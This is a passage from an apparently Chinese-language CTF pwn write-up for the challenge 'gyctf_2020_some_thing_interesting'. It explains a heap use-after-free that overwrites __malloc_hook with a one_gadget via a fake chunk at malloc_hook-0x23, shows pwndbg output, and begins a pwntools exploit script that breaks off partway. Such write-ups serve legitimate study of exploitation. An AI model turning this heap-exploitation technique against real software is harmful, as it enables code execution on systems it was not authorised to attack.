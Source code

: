 ```c
    }
  }, 

```

里面的代码个人理解就是进行一个任意写入的操作去绕过检测，不然直接更改malloc_hook的指向是会报错的哦

所以我们去uaf后edit的那个chunk是写入malloc_hook-0x23

add回来的时候我们再去写内容就是往这个地址里面去写内容，所以呢，我们还得去看下这里面的指针是怎么排布的



```c
pwndbg> x/32gx 0x7ffa4f391aed
0x7ffa4f391aed <_IO_wide_data_0+301>:	0xfa4f390260000000	0x000000000000007f

```

这里的0x10大小是必须填满的，接着我们要填充到__﻿﻿﻿﻿memalign_hook

```
在GNU系统中，malloc或realloc返回的内存块地址都是8的倍数（如果是64位系统，则为16的倍数）。如果你需要更大的粒度，使用memalign。这些函数在头文件“stdlib.h”中声明。

     在GNU库中，可以使用函数free释放memalign返回的内存块。
     函数：void * memalign (size_t boundary, size_t size) 
     函数memalign将分配一个由size指定大小，地址是boundary的倍数的内存块。参数boundary必须是2的幂！函数memalign可以分配较大的内存块，并且可以为返回的地址指定粒度。
```

用这个钩子去触发__malloc_hook,所以我们要看malloc_hook-0x23距离这个

__﻿﻿﻿﻿memalign_hook这个钩子有多远你填充多少个字节的junk code

这个程序的是距离0x13，所以add回来的时候先用0x13压入再传入onegadget 下次再add的时候就是执行onegadget了

exp

```python
from pwn import *

#r=remote("node4.buuoj.cn",29754)
r=process('./gyctf_2020_some_thing_interesting')
elf=('./gyctf_2020_some_thing_interesting')
#libc=ELF('libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level = 'debug'

#one_gadget_16 = [0x45216,0x4526a,0xf02a4,0xf1147]
one_gadget_16= [0x45226,0x4527a,0xf03a4,0xf1247]
def add(size1, content1, size2, content2):
	r.recvuntil("#######################\n")
	r.sendline('1')
	r.recvuntil("> O's length : ")
	r.sendline(str(size1))
	r.recvuntil("> O : ")
	r.send(content1)
	r.recvuntil("> RE's length : ")
	r.sendline(str(size2))
	r.recvuntil("> RE : ")
	r.send(content2)

def delete(index):
	r.recvuntil("#######################\n")
	r.sendline('3')
	r.recvuntil("> Oreo ID : ")
	r.sendline(str(index))

def show(index):
	r.recvuntil("#######################\n")
```